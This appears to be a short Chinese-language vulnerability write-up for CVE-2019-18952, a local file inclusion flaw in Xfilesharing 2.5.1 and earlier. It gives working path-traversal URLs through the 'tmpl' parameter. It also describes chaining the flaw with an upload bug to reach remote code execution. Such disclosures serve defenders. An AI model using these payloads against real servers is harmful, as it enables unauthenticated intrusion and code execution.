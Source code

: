 # （CVE-2019-18952）Xfilesharing 2.5.1本地文件包含

> 原文：[https://www.zhihuifly.com/t/topic/3285](https://www.zhihuifly.com/t/topic/3285)

# （CVE-2019-18952）Xfilesharing 2.5.1本地文件包含

## 一、漏洞简介

## 二、漏洞影响

Version: <=2.5.1

## 三、复现过程

### 本地文件包含

```
http://0-sec.org/?op=page&tmpl=../../admin_settings 
```

此URL将获取“ admin_settings.html”模板，无需任何身份验证。“ .html”扩展名在服务器上进行了硬编码，因此所包含的文件必须在服务器上的任何位置都具有html扩展名。甚至可以通过上传html文件（例如“ upload.html”）并将“ sid”更改为“ ../../../../../../tmp”将LFI与任意文件上传漏洞合并，然后因此该文件将上传到服务器的tmp目录中。

```
http://0-sec.org/?op=page&tmpl=../../../../../../../tmp/upload 
```

Xfilesharing脚本也内置了短代码，因此您可以实现RCE通过将它们包括在“上传”中。
